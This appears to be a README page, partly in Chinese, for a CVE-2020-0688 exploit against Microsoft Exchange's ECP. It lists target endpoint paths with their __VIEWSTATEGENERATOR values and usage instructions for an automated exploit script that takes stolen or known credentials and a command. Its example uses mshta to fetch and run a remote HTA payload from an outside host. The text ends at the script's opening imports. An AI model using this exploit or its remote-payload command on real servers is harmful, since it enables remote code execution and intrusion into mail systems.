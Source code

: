     /ecp/Customize/Messaging.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=9C5731F0

    /ecp/Customize/General.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=72B13321

    /ecp/Customize/Calendar.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=4AD51055

    /ecp/Customize/SentItems.aspx?showhelp=false&
     __VIEWSTATEGENERATOR=4466B13F

    /ecp/PersonalSettings/Password.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=59543DCA

    /ecp/SMS/TextMessaging.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/TroubleShooting/MobileDevices.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/Customize/Regional.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=9097CD08

    /ecp/MyGroups/SearchAllGroups.slab?pwmcid=3&ReturnObjectType=1
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/Security/BlockOrAllow.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=362253EF

全自动（支持加密）
==================

    CVE-2020-0688_EXP Auto trigger payload

    python3 CVE-2020-0688_EXP.py -h  

    usage: CVE-2020-0688_EXP.py [-h] -s SERVER -u USER -p PASSWORD -c CMD [-e]  

    optional arguments:  
      -h, --help            show this help message and exit  
      -s SERVER, --server ECP Server URL Example: http://ip/owa  
      -u USER, --user USER  login account Example: domain\user  
      -p PASSWORD, --password PASSWORD  
      -c CMD, --cmd CMD     Command u want to execute  
      -e, --encrypt         Encrypt the payload  
    example:

    python CVE-2020-0688_EXP.py -s https://mail.x.com/ -u user@x.com -p passwd -c "mshta http://1.1.1.1/test.hta"

> 需要把`ysoserial.exe` 放当前目录
>
> <https://github.com/ianxtianxt/ysoserial.net/>

    # encoding: UTF-8
    import requests
    import readline
    import argparse
    import re
    import sys
    import os
    import urllib3
    from urllib.parse import urlparse
    from urllib.parse import quote
    urllib3.disable_warnings()
